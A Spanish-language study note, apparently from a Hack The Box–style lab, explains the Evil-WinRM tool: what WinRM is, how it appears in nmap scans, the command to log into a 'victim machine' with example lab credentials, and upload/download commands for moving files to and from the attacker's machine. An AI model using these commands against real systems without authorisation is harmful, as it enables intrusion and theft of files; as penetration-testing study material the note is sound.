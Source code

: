 #evil-winrm 

-----

Evil-Winrm es una herramienta muy útil para conectarse a máquinas Windows a través del servicio **WinRM (Windows Remote Management)**
**WinRM (Windows Remote Management)** es un **servicio de Windows que permite la administración remota de máquinas** usando el protocolo **WS-Management**, basado en SOAP (XML sobre HTTP).
En [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]] nos va a aparecer de esta forma `5985/tcp  open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)` . Esto pasa porque el servicio **WinRM** corre encima de **Microsoft HTTPAPI** (básicamente un mini servidor HTTP de Windows que usan varios servicios del sistema).

------
## Como establecer conexion con maquina victima
```shell
evil-winrm -i Ip -u Usuario -p Contraseña -P Puerto
Ejemplo: evil-winrm -i 10.129.95.234 -u administrator -p badminton -P 5985
```
*Parametros:*
`-i` Es para la ip
`-u` Va el usuario
`-p` Se pone la contraseña
`-P` Se coloca el puerto

--------
# Descarga de archivos

Desde la maquina victima si ponemos el comando de download se va a descargar el archivo en nuestra maquina

```shell
download NombreDelArchivo
download test.txt
```

----
# Comandos

``upload``  NombreDelArchivo           para subir un archivo a la maquina victima
``download`` NombreDelArchivo        para descargar un archivo hacia mi maquina de atacante